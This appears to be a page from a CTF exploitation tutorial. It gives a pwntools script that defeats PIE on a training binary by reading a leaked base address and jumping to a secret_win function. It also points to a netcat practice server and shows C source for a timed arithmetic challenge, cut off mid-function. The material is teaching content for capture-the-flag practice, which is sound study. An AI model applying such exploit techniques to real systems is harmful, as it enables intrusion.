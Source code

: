 **Using Pwntools for the PIE Challenge**  
Key Steps
+ Leak the Base Address
+ Calculate secret_win Address
+ Send Payload

```python
from pwn import *

elf = context.binary = ELF('./MyProgramWithPIE')  # Parses the binary
offset_secret_win = elf.symbols['secret_win']     # Get offset of secret_win

def exploit():
    p = process('./MyProgramWithPIE')  # Local

    p.recvuntil(b'Base address of binary: ') 
    base_address = int(p.recvline().strip(), 16)
    log.success(f"Base address: {hex(base_address)}")

    secret_win_addr = base_address + offset_secret_win
    log.info(f"secret_win @ {hex(secret_win_addr)}")

    p.sendline(hex(secret_win_addr).encode())

    p.interactive()

if __name__ == '__main__':
    exploit()
```

Explanation
+ ELF() – Parses the binary to extract symbols (e.g., secret_win offset).
+ process() – Spawns the target locally.
+ recvuntil() + recvline() – Extracts the leaked base address.
+ sendline() – Sends the calculated address of secret_win.
+ interactive() – Drops into an interactive shell post-exploit.

![Static Badge](https://img.shields.io/badge/Apply-Material-Green?style=flat-square&color=5555ff)  
+ `nc x-0r.com 1343`  
```C
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <unistd.h>
#include <signal.h>

void alarm_handler(int sig) {
    printf("\nToo slow!\n");
    exit(1);
}

int main() {
    srand(time(0));
    
    int a = rand() % 100000 + 1;
    int b = rand() % 100000 + 1;
    int c = rand() % 100000 + 1;
    int sum = a + b + c;
    
    signal(SIGALRM, alarm_handler);
    alarm(1);
    
    printf("You have 1 second to solve this:\n");
    printf("%d + %d + %d = ?\n", a, b, c);
    
```